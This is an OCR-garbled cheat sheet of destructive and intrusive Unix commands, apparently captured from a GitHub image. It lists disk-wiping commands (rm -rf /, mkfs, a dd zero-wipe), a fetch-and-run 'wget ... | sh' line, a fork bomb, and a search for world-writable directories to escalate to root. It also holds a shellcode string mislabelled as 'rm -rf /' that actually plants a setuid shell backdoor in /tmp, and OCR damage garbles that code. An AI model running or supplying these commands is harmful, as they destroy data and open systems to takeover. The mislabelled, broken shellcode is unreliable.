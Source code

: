 Oh, and you're probably a jerk if you use any of the stuff below.
Command
Description
rm -rf /
This will recursively try to delete all files.
char esp[] __attribute__ ((section(".text"))) /* e.s.p release */ = "\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68?
"\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99?

"\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7?
"\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56?
"\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31?
"\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69?
"\x6e\x2f\x73\x68\x00\x2d\x63\x00?
"cp -p /bin/sh /tmp/.beyond; chmod 4755 /tmp/.beyond;";	
Hex version of rm -rf /	
How is this supposed to work?


mkfs.ext3 /dev/sda
Reformat the device mentioned, making recovery of files hard.		
dd if=/dev/zero of=/dev/sda bs=1M
Overwrite disk /dev/sda with zeros
Execute a remote script

wget http://server/file.sh -O- | sh
This command forces the download of a file and immediately its execution, can be exploited easily using or reverse shit		
Fork Bomb
:(){:|:&};:


The [in]famous "fork bomb". This command will cause your system to run a large number of processes, until it "hangs". This can often lead to data loss (e.g. if the user brutally reboots, or the OOM killer kills a process with unsaved work). If left alone for enough time a system can eventually recover from a fork bomb.


Stolen from: http://incolumitas.com/wp-content/uploads/2012/12/blackhats_view.pdf
World 
writable 
directories


Find word writable folders outside your home directory. It would be a tremendous success if we could write, say to /etc. So we could add configuration files and therefore pretty sure execute code as root, since many daemons read a specific number of primary and secondary configuration files, whereas the secondary ones are often not created yet. If the superusers home (/root) would be writable, we could create shell startup files that doesn't exist yet: .profile, 
.bash_profile, .bashrc...
find / \( -wholename 
'/home/homedir/*' -prune \) -o \
( -type d -perm -0002 \) -exec 
ls -ld '{}' ';' 2>/dev/null

